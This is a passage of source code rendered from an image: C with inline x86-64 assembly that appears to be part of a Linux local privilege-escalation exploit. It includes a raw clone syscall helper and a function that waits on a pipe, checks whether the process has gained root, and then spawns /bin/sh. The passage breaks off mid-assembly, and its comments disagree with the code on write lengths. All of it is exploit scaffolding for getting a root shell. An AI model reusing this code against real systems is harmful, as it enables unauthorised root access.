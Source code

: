 ```c
     * rsi: func for child process to execute
     */
    __asm__ volatile(
        "mov r15, rsi;"
        "xor esi, esi;"
        "xor edx, edx;"
        "xor ecx, ecx;"
        "xor r8, r8;"
        "xor r9, r9;"
        "xor r10, r10;"
        "xor r14, r14;"
        "mov rax, 56;"
        "syscall;"
        "cmp rax, 0;"
        "jl failed;"
        "cmp rax, 0;"
        "je child;"
        "ret;"
        "failed:"
        "mov rax, 1;"
        "mov rdi, 1;"
        "mov rdx, 17;"
        "lea rsi, failed_clone_str;"
        "syscall;"
        "mov rax, 60;"
        "mov rdi, -5;"
        "syscall;"
        "child:"
        "jmp r15;");
}

int waiting_for_root_fn(void)
{
    /**
     * 执行如下代码：
     * read(check_root_pipe, child_pipe_buf, 1);
     * if(getuid() == 0){
     *     write(1, root_str, 0x20);
     *     execve("/bin/sh", shell_args, 0);
     * }else{
     *     write(1, failed_str, 0x20);
     *     exit(-6);
     * }
     */
    __asm__ volatile(
        "lea rax, [check_root_pipe];"
        "xor rdi, rdi;"
        "mov edi, dword ptr[rax];"
        "xor eax, eax;"
        "lea rsi, [child_pipe_buf];"
        "mov rdx, 1;"
        "syscall;" // read(check_root_pipe[0], child_pipe_buf, 1);
        "mov rax, 102;"
        "syscall;" // getuid();
        "cmp rax, 0;"
        "jne go;"
        "mov rax, 1;"
        "mov rdi, 1;"
        "lea rsi, [root_str];"
        "mov rdx, 0x50;"
        "syscall;" // write(1, root_str, 0x60);
        "mov rax, 59;"
        "lea rdi, [bin_sh_str];"
```